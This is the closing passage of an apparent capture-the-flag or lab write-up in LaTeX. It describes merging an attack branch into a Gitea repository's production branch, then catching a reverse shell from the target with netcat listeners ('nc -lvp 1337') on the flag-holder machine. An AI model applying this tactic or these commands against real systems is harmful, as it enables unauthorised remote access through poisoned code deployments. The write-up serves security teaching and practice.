    
\includegraphics[width=1\linewidth]{images/attack-pull-request.png}
    \caption{Gitea Repository - The pull request to merge the attack branch to production}
    \label{fig:pull-request}
\end{figure}

\subsubsection{Installation and C2}

According to the information given in the repository this repository should be deployed to the live environment shortly. Meaning that we need to be ready to receive and use the reverse shell that we are having run on the target machine. The shell we ran earlier is aimed towards the TCP port 1337 so that is the port we need to make sure we can listen on. Depending on your system this might be as simple as running a listener like the one below while others might require you to enable access to the port through you systems firewall.

\begin{verbatim}
    $ nc -lvp 1337
        # Or
    $ ncat -lvp 1337
\end{verbatim}

Running this listener and waiting a minute or two should result in a reverse shell on the target machine (See Figure 9). Giving us access to the flag-holder machine to do anything we want. The flag can easily be found on the machine by doing some simple enumeration but I will not show it here.

\begin{figure}
    \centering
    
\includegraphics[width=0.75\linewidth]{images/recieved-rev-shell.png}
    \caption{A reverse shell on the flag-holder machine}
    \label{fig:rev-shell-received}
\end{figure}

\newpage
\bibliographystyle{IEEEtran}
\bibliography{references}

\end{document}
